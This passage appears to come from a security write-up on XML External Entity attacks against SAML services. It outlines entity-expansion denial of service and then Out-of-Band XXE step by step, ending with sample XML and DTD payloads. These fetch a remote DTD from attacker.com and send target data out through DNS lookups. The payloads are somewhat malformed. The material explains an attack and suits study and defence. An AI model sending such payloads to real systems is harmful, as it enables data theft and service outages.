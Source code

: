 - The XML content is POSTed to the target SAML service.
- The SAML processor starts processing the XML content and expands the external entities. In this case, each stage of the chain will be expanded repeatedly.
- As each stage of the chain is repeatedly extended with reference to other stages, the XML processor encounters an excessively long text chain. This causes memory overuse and increases processing time.
- The XML processor is overloaded due to insufficient memory or processing time, rendering the service unusable.

**Out-of-Band (OOB) XXE Attack** is an attack method that allows the attacker to transmit the results of the XXE attack independently from the target system. This attack method uses external communication mechanisms such as DNS queries, HTTP requests, or other network connections.

Below is a step-by-step example of how Out-of-Band XXE Attack works:

- The attacker discovers the XXE vulnerability on the target system. This vulnerability is a vulnerability where external entities are processed in an XML processor on the target system and external communication mechanisms can be used.

- The attacker prepares the XML content to be sent to the target system. This content contains the external entity declarations required to perform the XXE attack.

- The attacker redirects external entity declarations in XML content to external communication mechanisms suitable for Out-of-Band attack. For example, an attacker could use external links such as DNS queries, HTTP requests, or FTP connections in XML content.

- The attacker sends the prepared XML content to the target system. This is usually done with an HTTP POST request.

- The target system starts processing the XML content sent by the attacker. During the process, external entity notifications are run and routed to external communication mechanisms.

- Using the external communication mechanism, information is sent to the server under the control of the attacker or to another target independent of the target system. For example, DNS queries can send information to an attacker-controlled server, or HTTP requests can transfer data to an attacker-controlled server.

- The attacker receives the information obtained from the target system or the results of the attack through the external communication mechanism.

A few XML examples (I'll leave it up to you to figure out how to do this):

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://attacker.com/xxe.dtd">
<!ENTITY %send SYSTEM "dns://attacker.com/">
%remote;
]>
<root>
<data>&send;</data>
</root>
```

xxe.dtd:

```
<!ENTITY % send "<!ENTITY &#x25; request SYSTEM 'dns://attacker.com/?domain=mytarget.com'>">
%send;

```
